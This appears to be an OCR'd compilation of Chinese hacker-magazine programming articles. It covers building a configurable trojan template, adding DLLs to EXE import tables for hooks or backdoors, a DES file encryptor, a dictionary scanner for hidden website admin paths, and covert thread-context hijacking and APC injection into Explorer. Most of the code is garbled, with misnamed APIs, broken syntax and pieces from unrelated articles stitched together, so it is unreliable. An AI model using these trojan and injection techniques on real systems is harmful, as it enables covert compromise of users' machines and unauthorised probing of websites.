

```csharp
private void timer_watchmacElapsed(object sender, EventArgs e) {
    ManagementClass mac = new managementClass("Win32_NetworkAdapterConfiguration");
    ManagementObject mmac = mac.GetInstances();
    foreach(ManagementObject obj in mmac) {
        if((bool)obj["Enabled"]) {
            mmac = (string)obj["MACAddress"].ToString();
        }
    }
}
```

MAC地址是不可修改的Ethernet驱动时，并不从EEPROM中读取MAC地址，在内存中创建一个唯一的地址。而且，通过上述方式或第三方软件写入保存Ethernet驱动中的MAC地址中。

### 方案二

MACAddress

一个应用程序在每个客户机器上运行，Windows启动时，自动“防止”和“停止”它。

Type: Read-only //地址是不可修改

Media Access Control (MAC) address of the network MAC address is assigned by the manufacturers to identify the network adapter.

Example: 00:1A:2B:3C:4D


最后一种防范攻击的方法是：在服务器上和客户上具有了限制，由于这种方式，客户将能够探测EEPROM中的唯一的MAC地址。通过这种方式的初始哈希值提供服务，并在当客户端和MAC地址比较时，合法的客户拥有修改地址的权限进行修改，而只有可以使用这种方法来阻止地址被封装了Windows的计时以工具“窗口”显示：`System.Timer`（在启动时的计时）控件有一个唯一的MAC地址。

```csharp
protected override void OnStart(string args) {
    // TODO，在此处用代码开始
    timer_watchmac.Elapsed += ...
}
```


第6版 精华大学出版社 北京

# PROGRAMMING ANALYSE

## 自写木马程序

用HEX软件打开木马驱动，你会发现配置存储在EXE文件的末尾，程序运行时只需要读取自身的配置数据，这样木马本身可以运行呢？资源段会被优先加载的，放在资源段中，运行时就需要配置。既然理解了原理，我们就可以写一个小程序，首先要一个木马模板让它读取自身携带的数据结构：通过EXE文件末尾添加的头部，例如修改`FILE_SIZE`的大小后，程序中就可以自定义的。

```vb
Const FILE_SIZE=20480 // 这是木马模板的结构
Private Sub Form_Load()
    Dim bAppend As Byte, iFile As Long, Info As Integer, Info As String
    Open Path & EXENAME & ".exe" For Binary Access #1
    Seek #1, FILE_SIZE // 特征字段位置之后写入到输出文件的末尾
    For iNum = 1 To FileLen(Path & ".exe" & EXENAME & ".exe") - FILE_SIZE
        Get #1, bAppend
        Info = Info & Chr(bAppend)
    Next i
    Close #1
    MsgBox Info
End Sub
```

接下来编写界面，让用户在运行中进行配置。另外写一个工程工具，用它加载、导出资源，资源标识为101，如果你想把你的资源导入，从属性->资源编辑器中添加以后，就可以用工具来导入。创建一个界面，显示一个文本框和一个按钮，如图所示：我们要在用户点击后程序将exe打包并配置信息到exe的末尾，木马的程序如下：

```vb
Const FILE_SIZE = 20480 // 这是自定义木马中的配置文件exe的大小
Private Sub Command1_Click()
    Dim bInfo As Byte, bFile As Byte, iFile As Integer, iFile As Long
    Info = txt1.Text
    If txt1.Text <> "" Then
        ' ...
    End If
End Sub
```

选择文件/`Config.exe`，执行后的结果是`Config.exe`，在配置中输入“hello”，生成EXE点击选择位置并保存文件，默认值为`ok.exe`，执行`ok.exe`，执行结果如下：对于复杂的配置信息，特别是双字节的全角符号，我们需要特别处理编码、解码信息写入一个`ini`文件，并在加载到exe之后，直接释放exe后再次读取。



# PROGRAMMING ANALYSIS

适合初学者：编程爱好者、敢破后立者

前置知识：无

## 为了实现 EXE注入

### SplashScreen

文/图 林昆



相信我这样的想法，人都把自定义的EXE文件加入`MessageBox`吧（也就是程序启动前弹出`MessageBox`，或者在用户点击按钮时进入程序）。我首先介绍如下的实现方法，来说是非常简单的。

```asm
push 004002D1 ; 调用 MessageBox的函数地址
push 004002B2 ; (目标窗口的地址)
push 004002A0 ; (参数类型)
push 004002A0 ; (标题地址)
push 004002B8 ; (字符串地址)
push 004002C0 ; (字符串地址)
call 00401100 ; 调用 MessageBoxW的函数
```

这并不是我们要找的地方吗？我们在`DIMain`中调用`DialogParam`参数，在资源中创建对话框，这种对话框时的参数，引子：`DialogProc`

### 实现

这种方法将DLL注入到目标进程，大家可以看看代码了：

```c
#include "windows.h"

int dummyFun(void) 
{
    return 0; // 这个函数一定要，把它注入到DLL的导出函数中
}
```

PROGRAMMING Analyse

```cpp
WndWidth=WndRect.right-WndRect.left;
WndHeight=WndRect.bottom-WndRect.top;
Timer=SetTimer(hwnd, 466, 3000, NULL);
```

OK! 我们已经给出了所有的代码，至于后续方面的设计，大家可能就不再多说了（具体来说代码）。接下来我们要做的是如何使用这个DI，不是说我吧？我们可以使用我们的`Dummy`函数来添加需要编写的程序的逻辑。文中调试方法自然足够了，用PE的方法已经足够了，不过在我们大家使用快速工具调试时，打开.exe，我们将我们要修改的

这里插入点主要是窗口的右下方，后面是左侧是右侧（使用坐标表示），希望大家能接受这一点。这里应该插入在C++代码下面。这个布局就是将控件显示在屏幕上的。

文件，代码所示：

```cpp
main {
  WndWidth=WndRect.right-WndRect.left;
  WndHeight=WndRect.bottom-WndRect.top;
  StartPos.x=0;//第一次插入在这里
  StartPos.y=0;
  WndWidth=ScreenWidth-StartPos.x;
  WndHeight=ScreenHeight-StartPos.y;
}
```

| Name | Address | Size | Type |
|---|---|---|---|
| EmptyFunc | 00107235 | 00 | OK |
| ImportFunc | 00107236 | 00 | OK |
| Size | 00001510 | 00 | Save |
| DateStamp | 442F05E4 | 00 | Save |
| StringSection | 00000000 | 00 | OK |
| ResourceSection | 00000000 | 00 | OK |
| BaseCode | 00105860 | 00 | OK |
| Checksum | 00B6C3D7 | 00 | OK |
| SectionAlignment | 00000000 | 00 | TDBC |
| Type | 00000000 | 00 | OK |
| Header | 00000000 | 00 | OK |

图1

```cpp
// 插入点C++ 代码如下：
// StartPos.x=ScreenWidth-StartPos.x;
// StartPos.y=ScreenHeight-StartPos.y;
// SetWindowPos(hwnd,WND_TOPMOST,StartPos.x,StartPos.y,WndWidth,WndHeight,SWP_SHOWWINDOW);
```

选择Directories按钮，弹出的窗口：如图所示。

| Name | Address | Size | Type |
|---|---|---|---|
| EmptyFunc | 00107235 | 00 | OK |
| ImportFunc | 00107236 | 00 | OK |
| Size | 00001510 | 00 | Save |
| DateStamp | 442F05E4 | 00 | Save |
| StringSection | 00000000 | 00 | OK |
| ResourceSection | 00000000 | 00 | OK |
| BaseCode | 00105860 | 00 | OK |
| Checksum | 00B6C3D7 | 00 | OK |
| SectionAlignment | 00000000 | 00 | TDBC |
| Type | 00000000 | 00 | OK |
| Header | 00000000 | 00 | OK |

选择Import右侧的...再次点击弹出窗口后我们在在这里插入数据，数据所示。图2。

```cpp
break;
case WM_TIMER:
    SendMessage(hwnd,WM_CLOSE,0,0);
    break;
break;
default:
    return FALSE;
}

BOOL API_ENTRY DllMain(HANDLE hModule, DWORD fdwReason, LPVOID lpReserved) {
  switch (fdwReason) {
    case DLL_PROCESS_ATTACH:
      DialogBoxParam((HINSTANCE)hModule,
      MAKEINRESOURCE(NULL, 102), (DLPROC)DlgProc,
      NULL);
      break;
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

| Name | Address | Size | Type |
|---|---|---|---|
| EmptyFunc | 00107235 | 00 | OK |
| ImportFunc | 00107236 | 00 | OK |
| Size | 00001510 | 00 | Save |
| DateStamp | 442F05E4 | 00 | Save |
| StringSection | 00000000 | 00 | OK |
| ResourceSection | 00000000 | 00 | OK |
| BaseCode | 00105860 | 00 | OK |
| Checksum | 00B6C3D7 | 00 | OK |
| SectionAlignment | 00000000 | 00 | TDBC |
| Type | 00000000 | 00 | OK |
| Header | 00000000 | 00 | OK |

点击add在弹出的列表中图3所示。

选择添加点击此按钮将你已经成的程序了。如果你想为你添加，只需要把你的动态库或就可以快速连接。程序中提供了两种方法，第一种方法只适用于代码块，第二种方法你就能心地为程序添加插件，包括钩、后门等，还需要调试，这里就不说了。建立一个新文件，`dummy`函数导出；写法如下：


```cpp
LIBRARY EXPORTS
DummyFunc
```

# Socket实现文件加密

Socket发布有些段时间了，还有很多朋友在VS系列中并没有遇到冲突的问题。不过关注最新技术和都是热情的朋友，对于初接触Socket的朋友来说，本文内容对你快速上手非常有帮助。

前置知识：数据加密是黑客学习的重要方面，下面教大家亲手打造一个加密软件。

- 1. 对加密感兴趣
- 2. 对开发感兴趣

现代加密学主要感兴趣，DES算法是一种对称的算法，这是本次使用的加密算法。加密过程就是将64位数据作为一个初始密钥，经过轮的转换，再生成一个新的64位数据，通过变换得到64位密文。现在进入主题，开始编写代码，编程环境是Studio，设计界面所示

打开文件加密代码如下：

```cpp
if (openFileDialog.Show() == DialogResult.OK) {
    // 对话框，获取文件名
    textBox1.Text = openFileDialog.FileName;
}
```

文件加密加密代码如下：

```cpp
if (textBox2.Text != "") {
    MessageBox.Show("输入密钥!","信息提示",MessageBoxButtons.OK,Information);
    return;
}
if (textBox3.Length < 6) {
    MessageBox.Show("密钥够6位!","信息提示",MessageBoxButtons.OK,Information);
    return;
}
if (textBox3.Text == textBox2.Text) {
    MessageBox.Show("密码不一致!","信息提示",MessageBoxButtons.OK,Information);
    return;
}
// 获取加密文件名
string MyFileName = textBox1.Text;
// 获取加密文件
stringOutputFile = textBox2.Text;
// 设置加密密钥
byte[] MyKey = new byte[] {01, 02, 03, 04, 05, 06, 07, 08};
byte[] DESKey = MyKey;
```

这里是加密密钥大小的方法，解密已经详细了：

```cpp
string MyKeyString = textBox3.Text;
if (MyKeyString.Length == 6) {
    DESKey = new byte[](Encoding.UTF8.GetBytes(MyKeyString), Encoding.UTF8.GetBytes(MyKeyString), Encoding.UTF8.GetBytes(MyKeyString), Encoding.UTF8.GetBytes(MyKeyString), 07);
}
if (MyKeyString.Length >= 8) {
    DESKey = new byte[](Encoding.UTF8.GetBytes(MyKeyString), Encoding.UTF8.GetBytes(MyKeyString), Encoding.UTF8.GetBytes(MyKeyString), Encoding.UTF8.GetBytes(MyKeyString), 07);
}
```

# PROGRAMMING ANALYSIS

```cpp
MyKeyString(byte MyKeyString5, byte MyKeyString6, (byte MyKeyString7));

(MyFileStream, MyDESCreateEncryptor(MyDESKey, MyDESV1, CryptoStream.Write);
```

```cpp
// 从加密流读取文件，然后将解密流输出到文件中
while(CompletedLength < inFile) {
  // 每次写入输入文件的块大小
  int Length = MyFileStream.Read(buffer, 0, Length);
  EncryptStream.Write(buffer, 0, Length);
  CompletedLength += Length;
}
```

```cpp
// 从输入流读取文件
FileStream MyFileStream = new FileStream(MyFileName, FileMode.Open, FileAccess.Read);
FileStream MyOutFileStream = new FileStream(MyOutputFile, FileMode.Create, FileAccess.Write);
MyOutFileStream.SetLength(0);
```

```cpp
// 每次循环
byte[] buffer = new byte[1024];
// 已经写入的块大小
int Length = 0;
// 代表输入文件的大小
long inFile = MyFileStream.Length;
// 创建解密器
DES_BS = new DESCryptoProvider(provider);
CryptoStream EncryptStream = new CryptoStream
```

```cpp
// 结束
EncryptStream.Close();
MyOutFileStream.Close();
MyFileStream.Close();
MessageBox.Show("文件处理完毕","提示");
MessageBox.Box("操作完成",Information);
```

# 文件轨迹程序

今天大家聊个话题，就是网站后台路径和文件的轨迹，这不是什么新事了，很多新手来说自从我们更多想过一个原理，在这里使用VB来分析。首先来看看网站后台的界面，如图所示

```vb
.Open Path &Dict.txt = "For Input" As #
While Do (EOF) = False {
  DoEvents()
  If IfBegin = True Then 路径已结束
    Close
  End If
  Label1.Text = "轨迹结束"
  Panel1 = False
  bBegin = False
  Exit
  i = i + 1
  LineInput = #Admin
  GetHttp Url
  If Right(Url, 1) = "/" And Right(Url, 2) = "#" Then
    Url = Url & ""
  End If
```

它分为字典、组合、暴力三种方式，字典用字母、数字和轨迹。对网站后台我用的是缓存文件，字典中这段代码：

- `字典As String`
- `DictAs Integer`

```vb
Label1.Text = "正在加密"
ProcessChange = i, Progress

If (EOF) = True Then

  Label2.Text = "正在停止",一起创建可能在后台组合 = & X1ListCount & "*"

  PBar.Value = 0

  CmdStart.Enabled = True

  CndStop.Enabled = False

  Frame.Comp.Enabled = True
```

 精华版

# PROGRAMMING ANALYSE

```vb
bOpCom = True

Force = True

End If

Close

' 请求服务器的响应

Private Sub GetHttpResponse(ByVal Url As String, ByVal StrResponse As String)

  On Error GoTo DisplayError

  Dim ship As String

  Dim shipp As String

  Dim i As String

  Dim bHHTP As String

  If Right(Url,4) <> "http" And Right(Url,8) <> "https" Then

    Url = "http://" & Url

  End If

  InetXML.OpenURL

  ship = InetXML.GetText(Url)

  HArr = New MSXML(0,11,vbText)

  Select ship

    Case "HTTP/1.1 200"

      ListUrl.Add Url & ", " 可以访问(200)"

    Case "HTTP/1.1 302"

      ListUrl.Add Url & ", " 页面重定向(302)"

    Case "HTTP/1.1 404"

      ListUrl.Add Url & ", " 未找到页面(404)"

    Case "HTTP/1.1 500"

      ListUrl.Add Url & ", " 内部服务器错误(500)"

    Case Else

      ListUrl.Add Url & ", " 错误"

  End Select

End Sub
```

上面的代码是读取文件`Dict.txt`中的每一行，然后使用互联网请求的`OpenURL`方法发送请求，再通过`HttpResponse`获取HTTP头信息，发送到状态码。通过状态码我们可以来确定。第一页显示的是`HTTP/1.1 200 Moved Permanently` 或`HTTP/1.1 403 Found` 是页面重定向到`HTTP/1.1 404 Not Found` 是`Internal Server Error`是服务器错误，其他的`HTTP/1.0`是无法定位的错误。我们通过获取HTTP头信息后，它将包含头部和分段部分，我们可以用`vbCreate`进行解析，取得状态码的值。这里如何通过解析来理解返回的语言和字符呢？这里没有办法，就是处理完的所有的数据、标题，分割部分了。

```vb
Rem 错误处理
Private Sub BurstFree()
   i i Long
  For i = 1 To MaxStep Step 1
    RecursionGuess = yNullString
  Next
End Sub
```

```vb
Rem 重新使用递归函数
Private Function RecursionGuess(ByVal Str As String, Dim i As Long)
  If bAgain = False Then
    Dim Count As Long
    Dim : As String
    Dim ship As String
    Dim shipp As String
    HArr As String
    Dim sCompu As String
    Dim Completer As String
    If Len > 0 Then 还有数据接收
      Len = Left(Completer, 1)
      RecursionGuess = Str & Mid(Completer, 2)
      RecursionGuess(Url, Len+1) 并循环处理
      Call ProcessChange(Len, StrCompleter, 1)
      sCompu = Replace(sCompu, "*", "")
      On Error GoTo DisplayError 页面出现意外错误
      For i = 1 To UBound(sCompu, 1)
        If sCompu(i) <> "" Then sCompu = Replace(sCompu, "*", "")
      Next
      sCompu = Replace(sCompu, "*", "")
```

```vb
DisplayError:
  Debug.Print sCompu
  InetXML.OpenURL
  HArr = New MSXML(0,11,vbText)
  ship = Left(Arr,00)
  Select Case ship
    Case "HTTP/1.1 200"
      ListUrl.Add Url & ", " 可以访问(200)"
    Case "HTTP/1.1 302"
      ListUrl.Add Url & ", " 页面重定向(302)"
    Case "HTTP/1.1 404"
      ListUrl.Add Url & ", " 未找到页面(404)"
    Case "HTTP/1.1 500"
      ListUrl.Add Url & ", " 内部服务器错误(500)"
    Case Else
      ListUrl.Add Url & ", " 错误"
  End Select
  Next = ""
  Exit Function
```

```vb
MagBox Err, vbCritical, Description
```

www.hacker.com
2003 *星风(黑客) 著作版权所有

# PROGRAMMING ANALYSIS 

(socket) hacker@hacker.com

| 变量 | 类型 | 长度 | 备注 |
| --- | --- | --- | --- |
| 变量A | int | 4 | 最大值2147483647 |
| 变量B | float | 4 | 最大值3.4028e+38 |
| 变量C | double | 8 | 最大值1.7976931348623157e+308 |

## 进度变化

```vb
PBar.Progress = ProgressMax

If Progress < -I Progress <= ProgressMax Then

    nPBar.Value = Progress

End If
```

其中参数规定就是进度值，`ProgressMax`是最大值，在使用之前先设定最大值就可以实现了，即使你在选项列表中选择了数字，`ProgressMax`的最大值是26的，`Progress`将从0到26的进度就可以实现的。这里有一点是在锚链、rar、zip包含后缀类型是不匹配的错误，如果出现此错误，证明这个文件是损坏的。好啦，写到这里，代码已经写好了，如果对感兴趣的读者可以自己研究，希望你们的程序比我的好哦，



- Rem 进度的显示

```vb
Private Sub ProgressChange(By Progress As Long, Val Progress As Long)

    If Progress = 0 Then Exit Sub //解析处理
```

适合读者，网络爱好者，编程者们，马杨冰好作者
前言：我马杨冰蛋

## 线性注入技术

## 新发现的领域

## 前言

最近我对线性注入技术进行了更深入的探索，对于线性代码编写的方法我已经进行了一定的改进，不过在以前的文中所提到的方法有一个局限性：就是必须要开始一个新的线程，而不能用线性程序进行注入作为目标的话，我有两个方法可以实现：

## 一 方法一

在`Code1`中采用的方法是，首先获取A线程得到的上文环境`Context`，并开启一个新的线程B、`Context`和自己的ID注入线程B、线性线程的ID获取一个句并将将其注入，使用`Context` A线程的上下文中，在执行后的A线程，完成这些工作之后，就可以实现灵活的作者，而不是做自己的事情了。

### 1. 概述

我们从`Explorer`调用，也许你想象，我我可以从`Explorer`中创建一个线性线程，获取它下一个这的写法是这样的，但是这样做是不行的，除非我们执行的比如，`Explorer`上注入是非合法的操作，我非常害怕起始的线性程序最后就直接崩溃了。

这里的注入是，A线程和B线程的工作并不是如此，而是我们需要在`Code1`中实现B线程让A线程在上下文中工作，让B线程在`Context1`之后让A线程在它的上下文中工作，然后执行最后就是注入了。

要解决这个问题，需要在注入时使用异步调用，然后恢复`Explorer`的状态，等待线程结束。程序的程序的线程的执行需要通过扩展代码来执行注入并并在其中一个线性线程执行代码`Code1`，在之后线程空隙中挂上一个线性执行代码，再挂上A，获得该线程的上下文`Context1`，并调用`Code1`，实现线性注入

使用`Windows API`这种特殊的线程控制——来执行`Explorer`，然后，挂出一个什么样的线程给`Explorer`运行，然后就成功了。

有人会认为线性是不需要开启线程的工作；只有开启线程就可以进行它的事实，证明是不行的。好啦，线性程序如果在这里执行多个复杂的程序`Explorer`就会停止或响应变慢，虽然并不是但是，这样可以减少线程使用的资源。

有人会问我们如何注入`Explorer`中的程序，可能会导致某些操作被他人发现，从而被发现证明这种做法是安全的。由于正常情况下，这一次会在等待完成后，用户本身不会有任何异常。

`Code1`

www.hacker.com (©)2007 马杨冰版权所有

# PROGRAMMING ANALYSIS

怎么用这种方法？神不知不觉的在Explore引入了这些代码，可是天之无工。

我终于开始理解原理并发代码，现在在Analysis Time!

首先我们开始理解处理程序的逻辑，这些代码都是在《Linux内核与网络开发》框架下，对内核基础上的修改读者对于对比比较清楚。

整个函数是在一个SE结构中其实这样好，SE很容易上手，与C++并发似乎并不复杂我终于掌握了这些代码，可以了。


```cpp
if(hThread=OpenThread(GetThreadId(m), NULL)

//这里是获取全局线程ID，然后释放

TheTool.ErrorOut("Exit Error");

leave;
```

```cpp
if(dwProcess=GetTargetProcess(m)) //获取进程ID，这个就是来自Explorer

TheTool.ErrorOut("Get Target Error");

leave;
```

```cpp
if(hProcess=OpenProcess(CREATE_CREAT, THREAD_ALL_ACCESS,VM_OPERATION, false,dwProcess)==NULL)

//这里是创建进程

TheTool.ErrorOut("Open Process Error");

leave;
```

```cpp
HANDLE hThreadHandle;

THREAD32 size = {0};

HANDLE hSnapshot = CreateTool32Snapshot(THREAD32_SNAPTHREAD, 0); //获取系统中的线程句柄

if(hSnapshot==INVALID_HANDLE)

TheTool.ErrorOut("Get Snapshot Error");

leave;
```

```cpp
Thread32.Size = sizeof(THREAD32);

if(Thread32First(hSnapshot, &Thread32))

{

    Found = TRUE;

    do {

        hTarget = OpenThread(THREAD_ALL_ACCESS, FALSE, Thread32.dwThreadID);

        if (hTarget) {

            ThreadHandle = hTarget;

            break;

        }

    } while (Thread32Next(hSnapshot, &Thread32));

}

else

{

    Found = FALSE;

}

CloseHandle(hSnapshot);

if (!Found) {

    // 遍历系统中的线程找到它

    TheTool.ErrorOut("Get Thread Error");

    leave;

}

// 属于Explorer的一个线程，用来说调试

SuspendThread(ThreadHandle);
```

```cpp
size=0;

TheTool.ErrorOut("Get Thread Error");

leave;
```

```cpp
if(lpImage=VirtualAllocEx(hProcess,NULL, pImage->OptionalHeader->SizeOfImage, 0,COMMIT_PAGE|EXECUTE_READWRITE))

//在Explorer中创建

TheTool.ErrorOut("Alloc Error");

leave;
```

```cpp
ctx.Context = CONTEXT;

if(GetThreadContext(ThreadHandle, &ctx))

//获取上下文

GetThreadContext(ThreadHandle, &ctx);

leave;
```

```cpp
if(WriteProcessMemory(hProcess, pImage, (LPVOID)&ctx, ctx.Size, NULL))

//写入目标线程

TheTool.ErrorOut("Process Memory Error");

leave;
```

```cpp
ctx.dwProcess=dwProcess; //这里获取进程句柄，如所示

size=sizeof(DWORD); //为远程线程写入参数

TheTool.ErrorOut("Write Parameter Error");

leave;
```

```cpp
if (size==sizeof(DWORD)) //完成远程创建

TheTool.ErrorOut("Write Parameter Error");

leave;
```

```cpp
if(SetThreadContext(ThreadHandle, &ctx)) //实施对目标上下文修改

TheTool.ErrorOut("Set Thread Error");

leave;
```

```cpp
if (ResumeThread(ThreadHandle))

//恢复线程

TheTool.ErrorOut("Resume Error");

leave;
```


# PROGRAMMING ANALYSIS | socket

```cpp
Thread {

    OK = TRUE;

}

finally
```

这里，与上文中的代码相同（`ConstructData`增加了一个参数传递）。

```cpp
HANDLE hThread=OpenThread(FALSE,FALSE,ThreadId); // 获取线程句柄

SuspendThread(hThread); //挂起线程

SetThreadContext(hThread,TargetContext); // 修改上下文

GetThreadContext(hThread,&ctx); // 获取

ResumeThread(hThread); // 恢复执行

Thread=CreateThread(NULL,0,NULL,0);

CloseHandle(hThread); // 关闭线程句柄

return 0;
```

这里就是上文描述的，A线程之间的传递，作者说变量名可以自定义：下面是远程代码

```cpp
WORD dwThreadId;

HANDLE hThread;

ThreadParam=(LPVOID)CurrentThreadId(); // 获取当前线程ID

TargetContext=ThreadParam; // 将参数一次性传递给线程，这里就是参数赋值给上下文：
```

```cpp
hThread=CreateThread(NULL,0,NULL,0,&dwThreadId);

if(hThread==NULL){ // 创建失败，就返回错误

return 0;
```

下面是我理解的远程代码，其中我写了一个`MessageBox`来进行测试：

```cpp
WINAPI DMyThreadFunc(LPVOID lParam)

MessageBox(NULL,"hello,","test",MB_OK);

return 0;
```

## 二 方法

### 1. 原理

此方法与之前的方法完全不同，是基于线程阻塞的。每个线程都有一个共享的，用来阻塞另一个线程。将一个线程设置为Alertable状态，如果另一个线程被阻塞时执行，另一个线程就不会阻塞到，而是会被阻塞的线程在完成完成后，通过通知另一个线程来结束。这里使用一个信号对象，`WaitForSingleObject`、`WaitForMultipleObjects`或`WaitForSingleObjectEx`就会线程处于Alertable状态：

```cpp
WORD dwThreadId;

ThreadParam=(LPVOID)CurrentThreadId();

char str[256];

sprintf(str,"Error: %d", GetLastError());

MessageBox(NULL,str,"test",MB_OK);

else

WaitForSingleObject(hThread,INFINITE); // 等待另一个线程被挂起

return 0;
```

这里就是另一个线程，为了等待另一个线程被挂起而结束了，这里为了让另一个线程被挂起后，`MessageBox`就结束了：在提供的线程阻塞的API中，有一个`UserQueuedAPI`，可以在当前线程中设置Alertable状态，从而在另一个线程阻塞时，执行用户指定的回调函数。只需要一个线程设置为Alertable状态，在请求线程中执行线程的逻辑后，我已经注意到了几点：这里遇到了一个我没有解决的问题，如何设置一个线程为Alertable状态。如果我设置了它，那么就可以用远程线程来执行了。我可以通过检查`UserAppPending`的值判断线程是否是Alertable状态，作为用户，如果是的话，该怎么办？下面是的线程代码

```cpp
WINAPI DMyThreadFunc(LPVOID lParam)

WORD dwThreadId;

ThreadParam=(LPVOID)lParam;
```



这里遇到了一个我没有解决的问题，如何设置一个线程为Alertable状态。如果我设置了它，那么就可以用远程线程来执行了。

我找到了一个解决方法：在Explorer中的几个线程中处理Alertable状态，将所有数据在Explorer中处理完毕之后，这样的事情就会我们完成。我们最后的解决方案是使用Explorer的属性，通过属性传递给线程，每个线程中加入了这里远程线程代码是`CreateThread`。在这一方法中，这里没有任何错误，为了线程数据，`Main`线程在线程开始之前就调用了一个：下面是B的线程

```cpp
WINAPI DMyThreadFunc(LPVOID lParam)

WORD dwThreadId;
```

www.hacker.com 2007 著作 孙轩 制作

# PROGRAMMING ANALYSIS

( 郝旭 | socket ) socket@heiker.com


图 4

前两个内核函数都可以提供相同的功能，连接的速度太大了，但是只是简单的，我想要并发的连接，不知道等到什么时候合适，下我用socket API来实现相同的函数，并且可以很多连接。速度很快的所谓。

这个程序的实现方法如下：

```cpp
struct sockaddr_in addr;

memset(&addr, 0, sizeof(addr));

addr.sin_family = AF_INET;

addr.sin_port = htons(8080);

inet_pton(AF_INET, "127.0.0.1", &addr.sin_addr);
```

连接服务器的参数，就是服务器的端口号，以及服务器的IP地址。

```cpp
int sock = socket(AF_INET, SOCK_STREAM, 0);

if (sock < 0) {

    perror("socket failed");

    return -1;

}

if (connect(sock, (struct sockaddr *)&addr, sizeof(addr)) < 0) {

    perror("connect failed");

    return -1;

}
```

同样的客户端，代码接口如下：

```cpp
void* clientThread(void* arg) {

    int sock = *(int*)arg;

    char buffer[1024];

    int bytesread;

    while ((bytesread = read(sock, buffer, sizeof(buffer)-1)) > 0) {

        buffer[bytesread] = '\0';

        printf("Server says: %s\n", buffer);

    }

    close(sock);

    return NULL;

}
```

再看具体的线程，程序的代码接口如下：

```cpp
// main loop

while (1) {

    int client_sock = accept(server_sock, (struct sockaddr *)&addr, &len);

    if (client_sock < 0) {

        perror("accept failed");

    } else {

